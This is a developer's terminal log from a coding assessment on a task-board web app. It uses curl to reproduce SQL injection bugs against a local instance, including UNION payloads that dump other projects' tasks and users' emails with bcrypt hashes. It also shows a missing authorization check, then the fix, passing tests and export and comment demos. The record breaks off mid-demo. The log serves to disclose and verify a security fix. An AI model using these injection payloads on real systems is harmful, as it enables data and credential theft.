

# Terminal log

Captured in order while working on the assessment (Windows 11 + Docker
Desktop, Git Bash). Commands are shown with `$`; tokens are kept in shell
variables, so no secrets appear below. Long build output is trimmed where
noted.

## Contents
1. [Setup](#1-setup)
2. [Initial test run](#2-initial-test-run)
3. [Bug curl proof (before fix)](#3-bug-curl-proof-before-fix)
4. [Fix: failing tests → passing tests](#4-fix-failing-tests--passing-tests)
5. [Fix curl proof (after fix)](#5-fix-curl-proof-after-fix)
6. [Part 3c — Airtable export demo](#6-part-3c--airtable-export-demo)
7. [Part 3a — task comments demo](#7-part-3a--task-comments-demo)
8. [Final test run](#8-final-test-run)

---

## 1. Setup

```console
$ git clone https://github.com/ajackus/q-taskboard-assessment.git .
$ git remote rename origin upstream
$ gh repo create ayushraj03/taskboard-assessment --public --source . --remote origin --push
https://github.com/ayushraj03/taskboard-assessment
$ docker compose up --build db web
```

Build output trimmed to the result. The first start failed because Git for
Windows (`core.autocrlf=true`) checked the shell scripts out with CRLF line
endings:

```console
 Image ajackus-web Built 
 Container ajackus-db-1 Created 
 Container ajackus-web-1 Created 
 Container ajackus-db-1 Started 
web-1  | /usr/bin/env: 'bash\r': No such file or directory
web-1  | /usr/bin/env: use -[v]S to pass options in shebang lines
 Container ajackus-web-1 Started 

web-1 exited with code 127
```

Fix: convert the three scripts back to LF (the repo stores them as LF, so git
sees no content change), then restart:

```console
$ sed -i 's/\r$//' bin/docker-entrypoint bin/setup .git-hooks/pre-commit
$ docker compose up -d web
web-1  | Prisma schema loaded from prisma/schema.prisma
web-1  | Datasource "db": PostgreSQL database "taskboard", schema "public" at "db:5432"
web-1  | 1 migration found in prisma/migrations
web-1  | Applying migration `20260101000000_init`
web-1  | The following migration(s) have been applied:
web-1  | migrations/
web-1  |   └─ 20260101000000_init/
web-1  |     └─ migration.sql
web-1  | All migrations have been successfully applied.
web-1  | Prisma schema loaded from prisma/schema.prisma
web-1  | ✔ Generated Prisma Client (v6.1.0) to ./node_modules/@prisma/client in 114ms
web-1  | Start by importing your Prisma Client (See: https://pris.ly/d/importing-client)
web-1  | Tip: Need your database queries to be 1000x faster? Accelerate offers you that and more: https://pris.ly/tip-2-accelerate
web-1  | > taskboard@0.1.0 dev
web-1  | > next dev --turbopack -p 3000
web-1  |  ⚠ `experimental.typedRoutes` has been moved to `typedRoutes`. Please update your next.config.ts file accordingly.
web-1  |    ▲ Next.js 15.5.15 (Turbopack)
web-1  |    - Local:        http://localhost:3000
web-1  |    - Network:      http://172.19.0.3:3000
web-1  |    - Experiments (use with caution):
web-1  |      ⨯ typedRoutes
web-1  |  ✓ Starting...
web-1  |  ✓ Ready in 2s
```

```console
$ docker compose exec web npm run db:seed

> taskboard@0.1.0 db:seed
> tsx prisma/seed.ts

seeding…
seed complete.
login with any of these (password: password123):
  meera@taskboard.dev   — admin on Q3 Launch, Internal Tools
  arjun@taskboard.dev   — admin on Onboarding, member on Q3 Launch
  kavya@example.com     — member on Q3 Launch
  dev@example.com       — viewer on Q3 Launch
  lina@example.com      — member on Onboarding
```

> Later, `.next` was moved to a named Docker volume (commit `bae0de1`): with the
> project in a OneDrive folder, the bind-mounted `.next` intermittently failed
> with `EACCES` on rename and API calls returned 500.

## 2. Initial test run

```console
$ docker compose exec web npm test

> taskboard@0.1.0 test
> vitest run

The CJS build of Vite's Node API is deprecated. See https://vite.dev/guide/troubleshooting.html#vite-cjs-node-api-deprecated for more details.

 RUN  v2.1.8 /app

 ✓ src/tests/schemas.test.ts (7 tests) 10ms
 ✓ src/tests/auth.test.ts (2 tests) 10ms
 ✓ src/tests/TaskCard.test.tsx (3 tests) 103ms

 Test Files  3 passed (3)
      Tests  12 passed (12)
   Start at  12:44:53
   Duration  1.74s (transform 393ms, setup 367ms, collect 548ms, tests 123ms, environment 1.85s, prepare 468ms)

```

## 3. Bug curl proof (before fix)

Issue #1 from [REVIEW.md](REVIEW.md): SQL injection in
`GET /api/projects/:id/tasks?q=`. `dev@example.com` is a **viewer** on
Q3 Launch only. Each probe prints a summary of the JSON response
(`LEAK` = a row that is not from the caller's project).

```console
=== setup: tokens and ids ===
dev@example.com = VIEWER on Q3 Launch (cmwapkdw40006pf9594vauphk), not a member of the other 2 projects

=== 1. normal search works (baseline) ===

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $DEV_TOKEN" http://localhost:3000/api/projects/$PROJECT_ID/tasks --data-urlencode 'q=press' | summ $PROJECT_ID
HTTP 200 | rows: 1 | rows from OTHER projects: 0
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Draft press release","description":"Detail for: Draft press release"}

=== 2. boolean injection: q=' OR '1'='1 ===

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $DEV_TOKEN" http://localhost:3000/api/projects/$PROJECT_ID/tasks --data-urlencode "q=zzz' OR '1'='1' OR title ILIKE '" | summ $PROJECT_ID
HTTP 200 | rows: 7 | rows from OTHER projects: 0
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Finalize launch date with marketing","description":"Detail for: Finalize launch date with marketing"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Draft press release","description":"Detail for: Draft press release"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Record demo video","description":"Detail for: Record demo video"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Set up analytics dashboards","description":"Detail for: Set up analytics dashboards"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Prepare customer email blast","description":"Detail for: Prepare customer email blast"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Update pricing page copy","description":"Detail for: Update pricing page copy"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"QA the new signup flow end-to-end","description":"Detail for: QA the new signup flow end-to-end"}

=== 3. UNION injection: read every task in every project ===

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $DEV_TOKEN" http://localhost:3000/api/projects/$PROJECT_ID/tasks --data-urlencode "q=zzz') UNION SELECT id, project_id, title, description, status, assignee_id, created_by_id, position, created_at, updated_at FROM tasks --" | summ $PROJECT_ID
HTTP 200 | rows: 12 | rows from OTHER projects: 5
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Finalize launch date with marketing","description":"Detail for: Finalize launch date with marketing"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Map current onboarding funnel","description":"Detail for: Map current onboarding funnel"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Interview 5 recently-onboarded customers","description":"Detail for: Interview 5 recently-onboarded customers
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Draft press release","description":"Detail for: Draft press release"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Wireframe new welcome screens","description":"Detail for: Wireframe new welcome screens"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Record demo video","description":"Detail for: Record demo video"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Audit current onboarding emails","description":"Detail for: Audit current onboarding emails"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Set up analytics dashboards","description":"Detail for: Set up analytics dashboards"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Prepare customer email blast","description":"Detail for: Prepare customer email blast"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Define success metric (TTFV target)","description":"Detail for: Define success metric (TTFV target)"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Update pricing page copy","description":"Detail for: Update pricing page copy"}
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"QA the new signup flow end-to-end","description":"Detail for: QA the new signup flow end-to-end"}

=== 4. UNION injection: dump users table (emails + bcrypt hashes) ===

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $DEV_TOKEN" http://localhost:3000/api/projects/$PROJECT_ID/tasks --data-urlencode "q=zzz') UNION SELECT id, 'users', email, password_hash, 'todo'::\"TaskStatus\", NULL, id, 0, created_at, updated_at FROM users --" | summ $PROJECT_ID
HTTP 200 | rows: 5 | rows from OTHER projects: 5
   LEAK  {"project_id":"users","title":"dev@example.com","description":"$2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS"}
   LEAK  {"project_id":"users","title":"arjun@taskboard.dev","description":"$2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS"}
   LEAK  {"project_id":"users","title":"meera@taskboard.dev","description":"$2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS"}
   LEAK  {"project_id":"users","title":"lina@example.com","description":"$2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS"}
   LEAK  {"project_id":"users","title":"kavya@example.com","description":"$2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS"}

=== 5. zero-invite attack: brand new account -> own project -> injection ===
registered attacker1794316252@evil.test, created own project cmwapkhqd0002pf4snktieh42

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $ATTACKER_TOKEN" http://localhost:3000/api/projects/$ATTACKER_PROJECT/tasks --data-urlencode "q=zzz') UNION SELECT id, project_id, title, description, status, assignee_id, created_by_id, position, created_at, updated_at FROM tasks --" | summ $ATTACKER_PROJECT
HTTP 200 | rows: 12 | rows from OTHER projects: 12
   LEAK  {"project_id":"cmwapkdw40006pf9594vauphk","title":"Finalize launch date with marketing","description":"Detail for: Finalize launch date with marketing"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Map current onboarding funnel","description":"Detail for: Map current onboarding funnel"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Interview 5 recently-onboarded customers","description":"Detail for: Interview 5 recently-onboarded customers
   LEAK  {"project_id":"cmwapkdw40006pf9594vauphk","title":"Draft press release","description":"Detail for: Draft press release"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Wireframe new welcome screens","description":"Detail for: Wireframe new welcome screens"}
   LEAK  {"project_id":"cmwapkdw40006pf9594vauphk","title":"Record demo video","description":"Detail for: Record demo video"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Audit current onboarding emails","description":"Detail for: Audit current onboarding emails"}
   LEAK  {"project_id":"cmwapkdw40006pf9594vauphk","title":"Set up analytics dashboards","description":"Detail for: Set up analytics dashboards"}
   LEAK  {"project_id":"cmwapkdw40006pf9594vauphk","title":"Prepare customer email blast","description":"Detail for: Prepare customer email blast"}
   LEAK  {"project_id":"cmwapkdwa000dpf95vftgbs2b","title":"Define success metric (TTFV target)","description":"Detail for: Define success metric (TTFV target)"}
   LEAK  {"project_id":"cmwapkdw40006pf9594vauphk","title":"Update pricing page copy","description":"Detail for: Update pricing page copy"}
   LEAK  {"project_id":"cmwapkdw40006pf9594vauphk","title":"QA the new signup flow end-to-end","description":"Detail for: QA the new signup flow end-to-end"}

```

Issue #2 (task update has no authorization) and issue #3 (password hashes in
project detail), reproduced on the running app:

```console
# lina@example.com is NOT a member of Q3 Launch; dev@example.com is a VIEWER
TASK_ID=cmwapkdwl000rpf955s5tu5q9 (Record demo video, Q3 Launch)

$ curl -s -w "\nHTTP %{http_code}\n" -X PATCH http://localhost:3000/api/tasks/$TASK_ID -H "Authorization: Bearer $LINA_TOKEN" -H "Content-Type: application/json" -d '{"status":"in_progress"}'
{"task":{"id":"cmwapkdwl000rpf955s5tu5q9","projectId":"cmwapkdw40006pf9594vauphk","title":"Record demo video","description":"Detail for: Record demo video","status":"in_progress","assigneeId":"cmwapkdvz0002pf95jm0dt73s","createdById":"cmwapkdvo0000pf95ttfk2tcg","position":2,"createdAt":"2026-11-10T13:10:48.165Z","updatedAt":"2026-11-10T14:27:39.431Z","assignee":{"id":"cmwapkdvz0002pf95jm0dt73s","name":"Kavya Reddy","email":"kavya@example.com"}}}
HTTP 200

$ curl -s -w "\nHTTP %{http_code}\n" -X PATCH http://localhost:3000/api/tasks/$TASK_ID -H "Authorization: Bearer $DEV_TOKEN" -H "Content-Type: application/json" -d '{"status":"in_progress"}'
HTTP 200

# for comparison, DELETE in the same file does check membership:
$ curl -s -w "\nHTTP %{http_code}\n" -X DELETE http://localhost:3000/api/tasks/$TASK_ID -H "Authorization: Bearer $LINA_TOKEN"
{"error":"you are not a member of this project"}
HTTP 403
```

```console
$ curl -s http://localhost:3000/api/projects/$PROJECT_ID -H "Authorization: Bearer $DEV_TOKEN" | node -pe "...memberships.map(m => m.user.email + \" \" + m.user.passwordHash)"
owner.passwordHash: $2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS
meera@taskboard.dev  $2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS
arjun@taskboard.dev  $2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS
kavya@example.com  $2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS
dev@example.com  $2a$10$vyZV8v8sGvEnz/x1/oO9U.e8jv0IbsAM7lJyldMxc7Z09TYXXO6DS
```

## 4. Fix: failing tests → passing tests

New integration tests (real Postgres, `taskboard_test`) written first and run
against the vulnerable code — 9 of 13 fail:

```console
$ docker compose exec web npx vitest run
 ✓ |unit| src/tests/schemas.test.ts (7 tests) 7ms
 ✓ |unit| src/tests/auth.test.ts (2 tests) 10ms
 ✓ |unit| src/tests/TaskCard.test.tsx (3 tests) 79ms
   × GET /api/projects/:id/tasks?q= — search > returns the same shape as the unfiltered listing (camelCase + assignee) 88ms
   × GET /api/projects/:id/tasks?q= — search > treats quotes in the search term as literal text 73ms
Raw query failed. Code: `42601`. Message: `ERROR: syntax error at or near "Brien"`
   × GET /api/projects/:id/tasks?q= — search > treats LIKE wildcards in the search term as literal text 75ms
   × GET /api/projects/:id/tasks?q= — search > returns the full list for a blank search term 76ms
   × GET /api/projects/:id/tasks?q= — search > rejects overly long search terms 56ms
   × GET /api/projects/:id/tasks?q= — search > SQL injection > does not let a boolean payload widen the filter 60ms
   × GET /api/projects/:id/tasks?q= — search > SQL injection > does not leak other projects' tasks via UNION 62ms
   × GET /api/projects/:id/tasks?q= — search > SQL injection > does not leak users or password hashes via UNION 59ms
   × GET /api/projects/:id/tasks?q= — search > SQL injection > cannot be used from an attacker's own project to read other projects 59ms
⎯⎯⎯⎯⎯⎯⎯ Failed Tests 9 ⎯⎯⎯⎯⎯⎯⎯
Raw query failed. Code: `42601`. Message: `ERROR: syntax error at or near "Brien"`
 Test Files  1 failed | 3 passed (4)
      Tests  9 failed | 16 passed (25)
```

After the fix (`d7156ad` — parameterized Prisma query):

```console
$ docker compose exec web npm test
 ✓ |unit| src/tests/schemas.test.ts (7 tests) 7ms
 ✓ |unit| src/tests/auth.test.ts (2 tests) 9ms
 ✓ |unit| src/tests/TaskCard.test.tsx (3 tests) 82ms
 ✓ |integration| src/tests/integration/tasks-search.test.ts (13 tests) 870ms
 Test Files  4 passed (4)
      Tests  25 passed (25)
```

## 5. Fix curl proof (after fix)

The **same script and the same curl commands** as section 3, re-run after the
fix (and after `docker compose restart web` — the dev server inside Docker does
not see file changes from the Windows host, so the first post-fix run was still
serving the old code until the restart):

```console
=== setup: tokens and ids ===
dev@example.com = VIEWER on Q3 Launch (cmwapkdw40006pf9594vauphk), not a member of the other 2 projects

=== 1. normal search works (baseline) ===

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $DEV_TOKEN" http://localhost:3000/api/projects/$PROJECT_ID/tasks --data-urlencode 'q=press' | summ $PROJECT_ID
HTTP 200 | rows: 1 | rows from OTHER projects: 0
   own   {"project_id":"cmwapkdw40006pf9594vauphk","title":"Draft press release","description":"Detail for: Draft press release"}

=== 2. boolean injection: q=' OR '1'='1 ===

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $DEV_TOKEN" http://localhost:3000/api/projects/$PROJECT_ID/tasks --data-urlencode "q=zzz' OR '1'='1' OR title ILIKE '" | summ $PROJECT_ID
HTTP 200 | rows: 0 | rows from OTHER projects: 0

=== 3. UNION injection: read every task in every project ===

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $DEV_TOKEN" http://localhost:3000/api/projects/$PROJECT_ID/tasks --data-urlencode "q=zzz') UNION SELECT id, project_id, title, description, status, assignee_id, created_by_id, position, created_at, updated_at FROM tasks --" | summ $PROJECT_ID
HTTP 200 | rows: 0 | rows from OTHER projects: 0

=== 4. UNION injection: dump users table (emails + bcrypt hashes) ===

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $DEV_TOKEN" http://localhost:3000/api/projects/$PROJECT_ID/tasks --data-urlencode "q=zzz') UNION SELECT id, 'users', email, password_hash, 'todo'::\"TaskStatus\", NULL, id, 0, created_at, updated_at FROM users --" | summ $PROJECT_ID
HTTP 200 | rows: 0 | rows from OTHER projects: 0

=== 5. zero-invite attack: brand new account -> own project -> injection ===
registered attacker1794316436@evil.test, created own project cmwapogcd0002pf4txy0f09ef

$ curl -s -G -w '\n%{http_code}' -H "Authorization: Bearer $ATTACKER_TOKEN" http://localhost:3000/api/projects/$ATTACKER_PROJECT/tasks --data-urlencode "q=zzz') UNION SELECT id, project_id, title, description, status, assignee_id, created_by_id, position, created_at, updated_at FROM tasks --" | summ $ATTACKER_PROJECT
HTTP 200 | rows: 0 | rows from OTHER projects: 0

```

## 6. Part 3c — Airtable export demo

Real Airtable base (`airtable.com/appSDlG0hjdAXk77U`, table `Tasks`), using
the official `airtable` package. After each export the script reads the table
back through the Airtable API and counts rows per `TaskBoard ID`. ("Other rows"
are 3 rows that existed in the table before the first export: Airtable's
default empty rows plus one typed by hand.)

**Airtable screenshot:**



Rows 4–10 are the 7 exported Q3 Launch tasks, keyed by `TaskBoard ID`.
Rows 1–3 were already in the table before any export ran (Airtable's default
empty rows and one test row typed by hand); the export never creates or
touches rows without a TaskBoard ID. The screenshot was taken before run #3
below, which renames "Update pricing page copy" to "… (v2)".

```console
PROJECT_ID=cmwapkdw40006pf9594vauphk (Q3 Launch)

=== 0. viewer (dev) cannot trigger an export -> 403 ===

$ curl -s -w '\nHTTP %{http_code}\n' -X POST http://localhost:3000/api/projects/$PROJECT_ID/exports/airtable -H "Authorization: Bearer $DEV_TOKEN"
{"error":"only project admins and members can export"}
HTTP 403

=== 1. admin (meera) starts export #1 -> 202, runs in background ===

$ curl -s -w '\nHTTP %{http_code}\n' -X POST http://localhost:3000/api/projects/$PROJECT_ID/exports/airtable -H "Authorization: Bearer $MEERA_TOKEN"
{"run":{"id":"cmwas9wf2000bo54s9vfawk5f","target":"airtable","status":"running","total":0,"exported":0,"failed":0,"failures":[],"error":null,"startedAt":"2026-11-10T14:26:37.790Z","finishedAt":null,"triggeredBy":{"id":"cmwapkdvo0000pf95ttfk2tcg","name":"Meera Iyer"}}}
HTTP 202

--- polling GET until finished ---
{
  "id": "cmwas9wf2000bo54s9vfawk5f",
  "target": "airtable",
  "status": "succeeded",
  "total": 7,
  "exported": 7,
  "failed": 0,
  "failures": [],
  "error": null,
  "startedAt": "2026-11-10T14:26:37.790Z",
  "finishedAt": "2026-11-10T14:26:40.424Z",
  "triggeredBy": {
    "id": "cmwapkdvo0000pf95ttfk2tcg",
    "name": "Meera Iyer"
  },
  "destinationUrl": "https://airtable.com/appSDlG0hjdAXk77U"
}

--- what is in Airtable now ---
Airtable rows from TaskBoard: 7 | unique TaskBoard IDs: 7 | duplicates: 0 | other rows not created by the export: 3
  cmwapkdwj000ppf95mn5la9ll  In review    Draft press release  (exported 2026-11-10T14:26:37.798Z)
  cmwapkdwl000rpf955s5tu5q9  In progress  Record demo video  (exported 2026-11-10T14:26:37.798Z)
  cmwapkdwp000vpf95plelj1x9  To do        Prepare customer email blast  (exported 2026-11-10T14:26:37.798Z)
  cmwapkdwg000npf956ppe1t5m  Done         Finalize launch date with marketing  (exported 2026-11-10T14:26:37.798Z)
  cmwapkdwq000xpf953fi6dp1y  In review    Update pricing page copy (v2)  (exported 2026-11-10T14:26:37.798Z)
  cmwapkdwn000tpf95objsygws  In progress  Set up analytics dashboards  (exported 2026-11-10T14:26:37.798Z)
  cmwapkdws000zpf95l10f5e8s  To do        QA the new signup flow end-to-end  (exported 2026-11-10T14:26:37.798Z)

=== 2. member (kavya) runs export #2 (same data) -> no duplicates ===

$ curl -s -w '\nHTTP %{http_code}\n' -X POST http://localhost:3000/api/projects/$PROJECT_ID/exports/airtable -H "Authorization: Bearer $KAVYA_TOKEN"
{"run":{"id":"cmwasa12t000do54s2lk1u769","target":"airtable","status":"running","total":0,"exported":0,"failed":0,"failures":[],"error":null,"startedAt":"2026-11-10T14:26:43.829Z","finishedAt":null,"triggeredBy":{"id":"cmwapkdvz0002pf95jm0dt73s","name":"Kavya Reddy"}}}
HTTP 202

{
  "id": "cmwasa12t000do54s2lk1u769",
  "target": "airtable",
  "status": "succeeded",
  "total": 7,
  "exported": 7,
  "failed": 0,
  "failures": [],
  "error": null,
  "startedAt": "2026-11-10T14:26:43.829Z",
  "finishedAt": "2026-11-10T14:26:44.259Z",
  "triggeredBy": {
    "id": "cmwapkdvz0002pf95jm0dt73s",
    "name": "Kavya Reddy"
  },
  "destinationUrl": "https://airtable.com/appSDlG0hjdAXk77U"
}

Airtable rows from TaskBoard: 7 | unique TaskBoard IDs: 7 | duplicates: 0 | other rows not created by the export: 3
  cmwapkdwj000ppf95mn5la9ll  In review    Draft press release  (exported 2026-11-10T14:26:43.837Z)
  cmwapkdwl000rpf955s5tu5q9  In progress  Record demo video  (exported 2026-11-10T14:26:43.837Z)
  cmwapkdwp000vpf95plelj1x9  To do        Prepare customer email blast  (exported 2026-11-10T14:26:43.837Z)
  cmwapkdwg000npf956ppe1t5m  Done         Finalize launch date with marketing  (exported 2026-11-10T14:26:43.837Z)
  cmwapkdwq000xpf953fi6dp1y  In review    Update pricing page copy (v2)  (exported 2026-11-10T14:26:43.837Z)
  cmwapkdwn000tpf95objsygws  In progress  Set up analytics dashboards  (exported 2026-11-10T14:26:43.837Z)
  cmwapkdws000zpf95l10f5e8s  To do        QA the new signup flow end-to-end  (exported 2026-11-10T14:26:43.837Z)

=== 3. rename a task in TaskBoard, export #3 -> row updated in place ===

$ curl -s -o /dev/null -w 'rename HTTP %{http_code}\n' -X PATCH http://localhost:3000/api/tasks/$TASK_ID -H "Authorization: Bearer $MEERA_TOKEN" -H 'Content-Type: application/json' -d '{"title":"Update pricing page copy (v2)","status":"review"}'
rename HTTP 200


$ curl -s -w '\nHTTP %{http_code}\n' -X POST http://localhost:3000/api/projects/$PROJECT_ID/exports/airtable -H "Authorization: Bearer $MEERA_TOKEN"
{"run":{"id":"cmwasa60u000fo54sc2uoynvt","target":"airtable","status":"running","total":0,"exported":0,"failed":0,"failures":[],"error":null,"startedAt":"2026-11-10T14:26:50.239Z","finishedAt":null,"triggeredBy":{"id":"cmwapkdvo0000pf95ttfk2tcg","name":"Meera Iyer"}}}
HTTP 202

{
  "id": "cmwasa60u000fo54sc2uoynvt",
  "target": "airtable",
  "status": "succeeded",
  "total": 7,
  "exported": 7,
  "failed": 0,
  "failures": [],
  "error": null,
  "startedAt": "2026-11-10T14:26:50.239Z",
  "finishedAt": "2026-11-10T14:26:53.211Z",
  "triggeredBy": {
    "id": "cmwapkdvo0000pf95ttfk2tcg",
    "name": "Meera Iyer"
  },
  "destinationUrl": "https://airtable.com/appSDlG0hjdAXk77U"
}

Airtable rows from TaskBoard: 7 | unique TaskBoard IDs: 7 | duplicates: 0 | other rows not created by the export: 3
  cmwapkdwj000ppf95mn5la9ll  In review    Draft press release  (exported 2026-11-10T14:26:50.248Z)
  cmwapkdwl000rpf955s5tu5q9  In progress  Record demo video  (exported 2026-11-10T14:26:50.248Z)
  cmwapkdwp000vpf95plelj1x9  To do        Prepare customer email blast  (exported 2026-11-10T14:26:50.248Z)
  cmwapkdwg000npf956ppe1t5m  Done         Finalize launch date with marketing  (exported 2026-11-10T14:26:50.248Z)
  cmwapkdwq000xpf953fi6dp1y  In review    Update pricing page copy (v2)  (exported 2026-11-10T14:26:50.248Z)
  cmwapkdwn000tpf95objsygws  In progress  Set up analytics dashboards  (exported 2026-11-10T14:26:50.248Z)
  cmwapkdws000zpf95l10f5e8s  To do        QA the new signup flow end-to-end  (exported 2026-11-10T14:26:50.248Z)

=== 4. double-click: two POSTs at once -> one 202, one 409 ===

$ (curl -s -o /dev/null -w 'A: HTTP %{http_code}\n' -X POST http://localhost:3000/api/projects/$PROJECT_ID/exports/airtable -H "Authorization: Bearer $MEERA_TOKEN" & curl -s -o /dev/null -w 'B: HTTP %{http_code}\n' -X POST http://localhost:3000/api/projects/$PROJECT_ID/exports/airtable -H "Authorization: Bearer $KAVYA_TOKEN" & wait)
B: HTTP 202
A: HTTP 409

```

Result: every run exports 7/7 tasks; after runs #1, #2 and #3 Airtable holds
**7 TaskBoard rows with 7 unique IDs and 0 duplicates**; the renamed task is
updated in place (`Update pricing page copy (v2)`, `In review`); a viewer gets
403; two simultaneous clicks produce one 202 and one 409.

Earlier real runs (before the table matched the expected columns) also
exercised the error handling against live Airtable:

```text
last export failed: AUTHENTICATION_REQUIRED: You should provide valid api key to perform this operation (HTTP 401)
    → fatal: run aborted after the first call, nothing retried
last export failed: UNKNOWN_FIELD_NAME: Unknown field name: "Status" (HTTP 422)
    → fatal: run aborted with the missing column named
Prepare customer email blast: INVALID_VALUE_FOR_COLUMN: Field "Position" cannot accept the provided value (HTTP 422)
... (one line per task)
    → permanent, per record: isolated row by row, not retried, reported; fixed in 78d01ea
```

## 7. Part 3a — task comments demo

```console
PROJECT_ID=cmwapkdw40006pf9594vauphk (Q3 Launch)  TASK_ID=cmwapkdwj000ppf95mn5la9ll (Draft press release)

=== 1. member (kavya) posts a comment -> 201 ===

$ curl -s -w '\nHTTP %{http_code}\n' -X POST http://localhost:3000/api/tasks/$TASK_ID/comments -H "Authorization: Bearer $KAVYA_TOKEN" -H 'Content-Type: application/json' -d '{"body":"First draft is in the shared folder."}'
{"comment":{"id":"cmwaq6vsv0001pf4tntdvphdb","taskId":"cmwapkdwj000ppf95mn5la9ll","body":"First draft is in the shared folder.","createdAt":"2026-11-10T13:28:17.792Z","author":{"id":"cmwapkdvz0002pf95jm0dt73s","name":"Kavya Reddy"}}}
HTTP 201

=== 2. admin (meera) replies, trying to forge author + backdate -> 201, forged fields ignored ===

$ curl -s -w '\nHTTP %{http_code}\n' -X POST http://localhost:3000/api/tasks/$TASK_ID/comments -H "Authorization: Bearer $MEERA_TOKEN" -H 'Content-Type: application/json' -d '{"body":"Reviewed - two small edits.","authorId":"someone-else","createdAt":"2001-01-01T00:00:00Z"}'
{"comment":{"id":"cmwaq6w3h0003pf4tbjpdyjb4","taskId":"cmwapkdwj000ppf95mn5la9ll","body":"Reviewed - two small edits.","createdAt":"2026-11-10T13:28:18.173Z","author":{"id":"cmwapkdvo0000pf95ttfk2tcg","name":"Meera Iyer"}}}
HTTP 201

=== 3. viewer (dev) reads the thread -> 200, chronological ===

$ curl -s -w '\nHTTP %{http_code}\n' http://localhost:3000/api/tasks/$TASK_ID/comments -H "Authorization: Bearer $DEV_TOKEN"
{"comments":[{"id":"cmwaq6vsv0001pf4tntdvphdb","taskId":"cmwapkdwj000ppf95mn5la9ll","body":"First draft is in the shared folder.","createdAt":"2026-11-10T13:28:17.792Z","author":{"id":"cmwapkdvz0002pf95jm0dt73s","name":"Kavya Reddy"}},{"id":"cmwaq6w3h0003pf4tbjpdyjb4","taskId":"cmwapkdwj000ppf95mn5la9ll","body":"Reviewed - two small edits.","createdAt":"2026-11-10T13:28:18.173Z","author":{"id":"cmwapkdvo0000pf95ttfk2tcg","name":"Meera Iyer"}}]}
HTTP 200

=== 4. viewer (dev) tries to post -> 403 ===

